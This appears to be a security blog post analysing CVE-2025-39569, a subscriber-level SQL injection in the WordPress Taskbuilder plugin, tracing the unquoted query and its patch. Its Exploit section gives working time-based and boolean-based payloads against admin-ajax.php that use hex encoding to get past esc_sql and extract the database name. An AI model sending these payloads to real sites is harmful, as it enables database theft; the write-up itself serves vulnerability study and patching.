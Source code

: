 ```yaml
---
title: CVE-2025-39569 Analysis & POC
description: Security Vulnerability in WordPress Taskbuilder Plugin.
date: 2025-09-22 18:54:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


The vulnerability occurs in the **Taskbuilder** WordPress plugin before version **4.0.2**. This could allow an attacker to directly interact with your database, including, but not limited to, stealing information.
- **CVE ID**: [CVE-2025-39569](https://www.cve.org/CVERecord?id=CVE-2025-39569)
- **Product**: [WordPress Taskbuilder Plugin](https://wordpress.org/plugins/taskbuilder/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: < 4.0.2
- **CVSS Severity**: High (8.5) 
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Taskbuilder Plugin**: v4.0.1 (vulnerable) and v4.0.2 (patched)
- **Diff Tool**: **meld** or any tool that can compare files to see differences between two versions

---

## Analysis
The application **sanitizes input data** before using it in SQL queries. However, during query construction, this value is inserted directly without being wrapped in single quotes `'...'`. This allows an attacker to inject valid SQL syntax (such as `OR`, `AND`, etc.) into the query, resulting in a SQL Injection vulnerability.

### Patch Diff
Use any diff tool to compare differences between the vulnerable version and the patched version.  
The clear difference is in the file **includes/admin/projects/get_users.php**.

In version **v4.0.1**, the variable `$proj_id` is escaped but inserted directly into the query without quotes:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = $proj_id" );
```

In version **v4.0.2**, the query is adjusted to wrap `$proj_id` in quotes after escaping:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = '$proj_id'" );
```

This patch ensures that the `$proj_id` value after escaping is treated as a **literal string**, preventing it from escaping the quotes to inject SQL syntax, effectively mitigating the SQL Injection.

![patch diff](images/posts/2025-08-31-CVE-2025-39569/patch_diff.png)

### How It Works

**File Architecture**:

General structure of the current file:

```php
$proj_id  = esc_sql($proj_id);
$project  = $wpdb->get_row("SELECT * FROM {$wpdb->prefix}wppm_project WHERE id = $proj_id");

// Start buffer to generate the main modal content
ob_start();
// ... render HTML user list
$body = ob_get_clean();

// Start buffer to generate modal footer
ob_start();
// ... render HTML buttons (Close, Save)
$footer = ob_get_clean();

// Return JSON data for frontend modal rendering
echo json_encode([
    'body'   => $body,
    'footer' => $footer,
]);
```

* `$proj_id` / `$project`: Fetch project data from the database.
* `ob_start()` / `ob_get_clean()`: Buffer HTML output instead of printing directly, storing it in a variable.
* `$body` / `$footer`: Contain dynamic HTML for the modal.
* `json_encode()`: Returns JSON to the client, often used in Ajax to render modals without refreshing the page.

The file is located in `includes`, suggesting it’s called from another feature. To find where it’s used, search for `get_users.php` in the plugin directory.

![search_get_users](images/posts/2025-08-31-CVE-2025-39569/search_get_users.png)

👉 It is included in the function `wppm_get_users()` of the class `WPPM_Admin` in **class-wppm-admin.php**.
`wppm_get_users()` is a **callback** for a **WordPress action hook**.

**WPPM_Admin constructor**:

```php
final class WPPM_Admin {
    public function __construct() {

        // other actions

        add_action( 'wp_ajax_wppm_get_users', array($this,'wppm_get_users'));

        // other actions
    }
}
```

* `add_action()` is a **WordPress Plugin API** method to attach a **callback** to an **action hook**.
* `wp_ajax_wppm_get_users` is an Ajax hook name:

  * `wp_ajax_{action}` → handles Ajax for logged-in users.
  * `wp_ajax_nopriv_{action}` → handles Ajax for non-logged-in users.
* Here, `action = wppm_get_users`. If you send `action=wppm_get_users` via Ajax to `admin-ajax.php`, WordPress will execute the corresponding callback, here `wppm_get_users()`.

👉 Knowing `action = wppm_get_users`, you can find which Ajax requests use it by searching `wppm_get_users` in **.js** files of the plugin.

![ajax search](images/posts/2025-08-31-CVE-2025-39569/ajax_search.png)

The `wppm_get_users` action is the **data part** in the POST request handled by `wppm_get_users()`.

The function is referenced in HTML attributes of the **project feature**:

* Create a new project
* Access that project
* Inspect code to locate `wppm_get_users` and see which actions call it

![ajax inspect](images/posts/2025-08-31-CVE-2025-39569/ajax_inspect.png)

👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.

![modal display](images/posts/2025-08-31-CVE-2025-39569/model_display.png)

## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](images/posts/2025-08-31-CVE-2025-39569/sqli_success.png)

Response delay indicates a successful SQL Injection.

### Get First Letter of Database Name

To **dump all data**, the first step is to extract at least one character of the database name. Once retrieved, the rest can be dumped.

Send a **boolean-based SQLi payload** with the correct `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name is **wordpress**, so the first character is `w` (HEX `0x77`).

`SUBSTRING(STRING,1,1)` retrieves the first character.

Here, `$proj_id = 4`. Since `SUBSTRING('wordpress',1,1)=0x77` is true, the `IF(condition, value_if_true, value_if_false)` returns `4`, which exists in the database, so the response contains the project users.

![response none](images/posts/2025-08-31-CVE-2025-39569/res.png)

Using **HEX technique** bypasses the `esc_sql()` function (see [Patch Diff](#patch-diff)) when quotes cannot be used.

Send a **boolean-based SQLi payload** with a wrong `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```

With a non-existent `proj_id`, the response contains `None`.

![response none](images/posts/2025-08-31-CVE-2025-39569/res_none.png)

👉 We successfully retrieved the first character of the database name using **boolean-based SQLi**:

* Correct `proj_id`: response without `None`
* Wrong `proj_id`: response contains `None`

> Time-based SQLi could also be used, but dumping large data sets would be slow.

## Conclusion

The **CVE-2025-39569** vulnerability in **WordPress Taskbuilder** arises from the missing single quotes `'...'` around user input in SQL queries, allowing user data to be interpreted as valid SQL syntax.

The patch in **v4.0.2** fixed this by wrapping `$proj_id` in quotes, ensuring it is always treated as a literal string in SQL.

**Key Takeaways**:

* Prefer **prepared statements** (`$wpdb->prepare()` in WordPress) over manually inserting variables into queries.
* For WordPress plugins, thoroughly test **Ajax endpoints**, as they are the most common sources of SQLi and XSS.
* Administrators should regularly update plugins/themes to receive security patches promptly.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Taskbuilder <= 4.0.1 Vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/taskbuilder/vulnerability/wordpress-taskbuilder-4-0-1-sql-injection-vulnerability?_s_id=cve)

---
